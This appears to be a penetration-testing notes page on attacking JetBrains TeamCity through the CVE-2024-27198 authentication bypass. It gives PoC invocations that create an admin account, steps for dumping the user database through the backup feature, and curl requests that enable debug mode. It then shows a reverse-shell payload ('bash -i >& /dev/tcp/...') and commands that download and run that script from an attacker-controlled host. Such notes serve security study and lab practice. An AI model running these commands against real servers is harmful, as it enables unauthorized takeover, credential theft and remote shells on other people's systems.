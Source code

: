 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# TeamCity

[TeamCity](https://www.jetbrains.com/teamcity/?source=google\&medium=cpc\&campaign=EMEA_en_GB_TeamCity_Branded\&term=teamcity\&content=513031361421\&gad_source=1\&gad_campaignid=12703731046\&gbraid=0AAAAADloJzi3DPDGWJ-UAKeHNsXXQm7sb\&gclid=CjwKCAjw-svEBhB6EiwAEzSdrl92o3EPn0xZuECPtC2p_cSrQkV443rAl14hWLBl22UBOq81fOcPQBoCcu0QAvD_BwE) is a web-based Continuous Integration and Continuous Deployment (CI/CD) platform developed by JetBrains. It is commonly used in software development pipelines to automate code testing, building, and deployment. The application exposes a web interface that allows developers and DevOps teams to configure build processes, monitor execution, manage user permissions, and integrate with version control systems such as Git, Mercurial, and Subversion. It supports custom build steps, agent-based job execution, and plugin extensions, making it highly flexible but also potentially risky when exposed to the internet. Since it often manages access tokens, deployment secrets, and code execution contexts, any compromise of a TeamCity instance can result in full control over source code repositories, build artifacts, and downstream infrastructure.

## Authentication Bypass

JetBrains TeamCity instances prior to version `2023.11.4` are affected by an an **authentication bypass vulnerability** ([CVE-2024-27198](https://nvd.nist.gov/vuln/detail/cve-2024-27198)) which allows unauthenticated attackers to perform administrative actions.

This flaw arises from improper access control checks in the web interface, permitting crafted requests to interact with admin-level endpoints without valid credentials. Exploiting this vulnerability provides full administrative access to the TeamCity server, which can include reading or modifying project configurations, injecting malicious build steps, accessing build logs and secrets, or triggering arbitrary code execution via the build agents.

A working [PoC](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) which creates an admin account is available:

```bash
python3 CVE-2024-27198.py -t http://tc-instance -u x7331 -p Password123!
```

Access to the UI is then granted and the application's database can be dumped as follows:

1. _Administration_ → _Backup_
2. _Start backup_ with _All except build artifacts_ scope
3. Download the resulting ZIP file and `$ cat database_dump/users`&#x20;

## RCE

Several PoCs, such as [this](https://github.com/Chocapikk/CVE-2024-27198) and [this](https://github.com/yoryio/CVE-2024-27198), leverage the above vulnerability to achieve RCE. For this to be successful the **debug mode must be enabled** on the server (as explained [here](https://0xdf.gitlab.io/2024/08/24/htb-runner.html#cve-2023-42793)). To enable this, we need to first create an admin user; this can be done with any of the PoCs mentioned.

{% code overflow="wrap" %}
```bash
# Create an admin user
$ uv run exploit.py -u http://tc-instance --add-user
[+] User created successfully. Username: xbxb4t78, ID: 22, Password: mEwy3Dn5Ic
[+] Token created successfully for user ID: 22. Token Name: dWzcfCVd61, Token: ey...Fj

# If already exists delete it and get it after
$ curl -X DELETE http://tc-instance/app/rest/users/id:22/tokens/RPC2

# Save the token
$ export TOKEN="ey...Fj"

# Enable the debug mode
$ curl -X POST 'http://tc-instance/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN"

# Refresh the server
$ curl 'http://tc-instance/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties' -H "Authorization: Bearer $TOKEN"
```
{% endcode %}

RCE can be now achieved manually or by using the PoCs:

{% tabs %}
{% tab title="Manual" %}
{% code overflow="wrap" %}
```bash
# Check if curl is installed
$ curl -X POST 'http://tc-instance/app/rest/debug/processes?exePath=which&params=curl' -H "Authorization: Bearer $TOKEN"

# revshell.sh → bash -i >& /dev/tcp/192.168.45.170/80 0>&1

# Download the file
$ curl -X POST 'http://tc-instance/app/rest/debug/processes?exePath=curl&params=192.168.45.170:443/revshell.sh&params=-o&params=revshell.sh' -H "Authorization: Bearer $TOKEN"

# Execute the file
$ curl -X POST 'http://tc-instance/app/rest/debug/processes?exePath=curl&params=192.168.45.170:443/revshell.sh&params=bash&params=revshell.sh' -H "Authorization: Bearer $TOKEN"
```
{% endcode %}
{% endtab %}

{% tab title="PoCs" %}
```bash
$ python3 RCity.py -t http://tc-instance -c id
​
Command: /usr/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.170/80 0>&1'
```
{% endtab %}
{% endtabs %}
